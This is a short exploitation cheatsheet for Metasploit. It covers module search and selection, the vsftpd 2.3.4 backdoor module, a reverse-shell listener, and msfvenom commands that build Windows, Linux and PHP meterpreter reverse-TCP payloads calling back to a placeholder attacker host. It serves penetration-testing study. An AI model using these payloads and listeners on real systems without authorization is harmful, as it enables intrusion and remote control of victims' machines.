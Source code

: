 # Cybersecurity Cheatsheet: Exploitation

This cheatsheet covers essential tools for gaining initial access, managing shells, and brute-forcing credentials.
## Metasploit Framework (`msfconsole`)

A powerful exploitation framework.

**Core Workflow:**
1.  **Search**: `search <service/vulnerability>` (e.g., `search vsftpd 2.3.4`)
2.  **Select**: `use <module_path>` (e.g., `use exploit/unix/ftp/vsftpd_234_backdoor`)
3.  **Options**: `show options` (to see required parameters)
4.  **Set Parameters**: `set RHOSTS <target_IP>`, `set LHOST <your_IP>`
5.  **Exploit**: `exploit` or `run`

**Listeners (for receiving reverse shells):**
use exploit/multi/handler set payload <payload_type> # e.g., windows/x64/meterpreter/reverse_tcp set LHOST <your_IP> set LPORT <listening_port> run

**Payload Generation (`msfvenom`):**
```bash
# Windows Reverse TCP Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -f exe -o shell.exe

# Linux Reverse TCP Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<port> -f elf -o shell.elf

# Web (PHP) Reverse Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<your_IP> LPORT=<port> -f raw -o shell.php
```